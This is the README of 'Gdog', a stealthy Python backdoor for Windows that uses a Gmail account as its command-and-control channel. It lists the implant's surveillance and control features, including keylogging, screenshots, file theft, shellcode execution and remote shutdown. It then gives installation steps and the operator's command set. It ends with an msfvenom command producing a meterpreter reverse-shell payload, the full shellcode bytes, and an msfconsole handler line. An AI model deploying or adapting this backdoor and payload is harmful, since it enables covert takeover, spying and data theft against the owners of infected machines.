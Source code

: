 Gdog
====
A stealthy Python based Windows backdoor that uses Gmail as a command and control server

This project was inspired by the gcat(https://github.com/byt3bl33d3r/gcat) from byt3bl33d3r.


Requirements
=====
* Python 2.x
* PyCrypto module
* WMI module
* Enum34 module
* Netifaces module


Features
=====
* Encrypted transportation messages (AES) + SHA256 hashing
* Generate computer unique id using system information/characteristics (SHA256 hash)
* Job IDs are random SHA256 hashes
* Retrieve system information
* Retrieve Geolocation information (City, Country, lat, long, etc..)
* Retrieve running processes/system services/system users/devices (hardware)
* Retrieve list of clients
* Execute system command
* Download files from client 
* Upload files to client
* Execute shellcode
* Take screenshot
* Lock client's screen 
* Keylogger
* Lock remote computer's screen
* Shutdown/Restart remote computer
* Log off current user
* Download file from the WEB
* Visit website
* Show message box to user
* Ability to change check-in time
* Ability to add jitter to check-in time to reduce predictability 


Setup
=====
For this to work you need:
- A Gmail account (**Use a dedicated account! Do not use your personal one!**)
- Turn on "Allow less secure apps" under the security settings of the account.
- You may also have to enable IMAP in the account settings.


Download/Installation
====
* https://sourceforge.net/projects/pywin32
* git clone https://github.com/maldevel/gdog
* pip install -r requirements.txt


Contents
=====
- ```gdog.py``` a script that's used to enumerate and issue commands to available clients
- ```client.py``` the actual backdoor to deploy

You're probably going to want to compile ```client.py``` into an executable using [Pyinstaller](https://github.com/pyinstaller/pyinstaller)

**Note: It's recommended you compile client.py using a 32bit Python installation**


Usage
=====
```
                      __
           ____ _____/ /___  ____ _
          / __ `/ __  / __ \/ __ `/
         / /_/ / /_/ / /_/ / /_/ /
         \__, /\__,_/\____/\__, /
        /____/            /____/

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -id ID                Client to target
  -jobid JOBID          Job id to retrieve

  -list                 List available clients
  -info                 Retrieve info on specified client

Commands:
  Commands to execute on an implant

  -cmd CMD                Execute a system command
  -visitwebsite URL       Visit website
  -message TEXT TITLE     Show message to user
  -tasks                  Retrieve running processes
  -services               Retrieve system services
  -users                  Retrieve system users
  -devices                Retrieve devices(Hardware)
  -download PATH          Download a file from a clients system
  -download-fromurl URL
                          Download a file from the web
  -upload SRC DST         Upload a file to the clients system
  -exec-shellcode FILE    Execute supplied shellcode on a client
  -screenshot             Take a screenshot
  -lock-screen            Lock the clients screen
  -shutdown               Shutdown remote computer
  -restart                Restart remote computer
  -logoff                 Log off current remote user
  -force-checkin          Force a check in
  -start-keylogger        Start keylogger
  -stop-keylogger         Stop keylogger
  -email-checkin seconds  Seconds to wait before checking for new commands  
  -jitter percentage      Percentage of Jitter
```


Shellcode Exec
=====

```
$ ./msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform Windows EXITFUNC=thread LPORT=4444 LHOST=172.16.153.1 -f python

No encoder or badchars specified, outputting raw payload
Payload size: 354 bytes
buf =  ""
buf += "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += "\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0\xb7"
buf += "\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += "\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += "\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += "\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += "\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += "\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += "\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += "\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += "\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
buf += "\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
buf += "\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00"
buf += "\xff\xd5\x6a\x05\x68\xac\x10\x99\x01\x68\x02\x00\x11"
buf += "\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
buf += "\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5"
buf += "\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec"
buf += "\xe8\x61\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02"
buf += "\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a"
buf += "\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53"
buf += "\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9"
buf += "\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x22\x58\x68\x00\x40"
buf += "\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57"
buf += "\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\xe9"
buf += "\x71\xff\xff\xff\x01\xc3\x29\xc6\x75\xc7\xc3\xbb\xe0"
buf += "\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c"
buf += "\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00"
buf += "\x53\xff\xd5"
```

Get rid of everything except for the shellcode and stick it in a file:

```
$ cat shell.txt 
\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x05\x68\xac\x10\x99\x01\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x61\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x22\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\xe9\x71\xff\xff\xff\x01\xc3\x29\xc6\x75\xc7\xc3\xbb\xe0\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5
```
run the console

```
 ./msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 172.16.153.1; run"
 ```
